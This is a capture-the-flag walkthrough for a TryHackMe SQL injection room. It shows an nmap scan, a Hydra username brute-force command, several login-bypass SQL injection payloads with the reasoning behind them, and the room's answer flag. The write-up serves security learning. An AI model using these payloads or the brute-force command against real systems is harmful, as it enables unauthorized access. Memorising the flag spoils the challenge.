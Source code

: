 
# Lesson Learned? — TryHackMe Walkthrough

---

## 🧠 Introduction

Sometimes, the best lessons are the ones you break things to learn.

*Lesson Learned?* is a great example of a room that keeps things simple — but forces you to think carefully about how SQL injection actually works under the hood. It’s not about spraying `'OR 1=1--` and praying. It’s about being subtle, targeted, and aware of the damage you could cause in the real world.

This walkthrough breaks down the process step-by-step — from enumeration to crafting the perfect SQLi — while explaining the logic and risks behind each move.

---

## 🧭 Step 1: Scanning the Box

As always, we start with `nmap` to find out what services are running:

```bash
nmap -T4 -p- -A 10.10.99.121
```

Results:

```
22/tcp open  ssh        OpenSSH 8.4p1 Debian  
80/tcp open  http       Apache httpd 2.4.54 (Debian)
```

So we’ve got a web server on port 80 and SSH. Classic setup.

---

## 🌐 Step 2: Web App — Initial Login Page

Navigating to the web page on port 80 shows a generic-looking login form.

Naturally, I tried:

```
Username: admin  
Password: admin
```

No luck.

But when I entered this classic SQLi payload:

```
admin' OR '1'='1
```

… I didn’t get logged in — but I did get a juicy error message.

>Image 1  
>Image 2

That means the backend is likely doing something like:

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```

If that’s true, then a properly crafted injection should let us slip in.

---

## 💥 Step 3: Discovering a Valid Username

Here’s the catch: SQLi works best when you inject into a valid user. So I turned to Hydra to brute-force possible usernames and figure out which ones exist:

```bash
hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p test 10.10.99.121 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"
```

(Use the actual path/params for the login form — this is just illustrative.)

Eventually, we get a bunch of valid usernames. One that stood out: **Green**

>Image 3

---

## 🧪 Step 4: Precision SQL Injection

Using what we’ve gathered, we now craft a *targeted* SQLi payload:

```
Username: Green' AND '1'='1'-- -
Password: (anything)
```

Why this works:

```sql
SELECT * FROM users WHERE username = 'Green' AND '1'='1' -- ' AND password = '...';
```

The `--` comments out the rest, and `AND '1'='1'` makes the condition always true for a valid user. Clean and precise.

And just like that... we're in.

>Image 4

---

## 🏁 Flag Captured

The final page gives us the flag:

```
THM{aab02c6b76bb752456a54c80c2d6fb1e}
```

>Q: What's the flag?  
>A: THM{aab02c6b76bb752456a54c80c2d6fb1e}

---

## 🔐 Conclusion

This room may be short — but it teaches a huge lesson.

Using `'OR 1=1--` might feel like a power move, but in a real environment? It’s a loaded gun. That kind of injection can dump the entire users table or accidentally wipe rows if used in a `DELETE` or `UPDATE` statement. Instead, this box rewards careful, *targeted* payloads — a skill that separates script kiddies from real security testers.

So yes — lesson learned.

> 💡 Be precise. Be subtle. And always understand *why* your payload works.

---
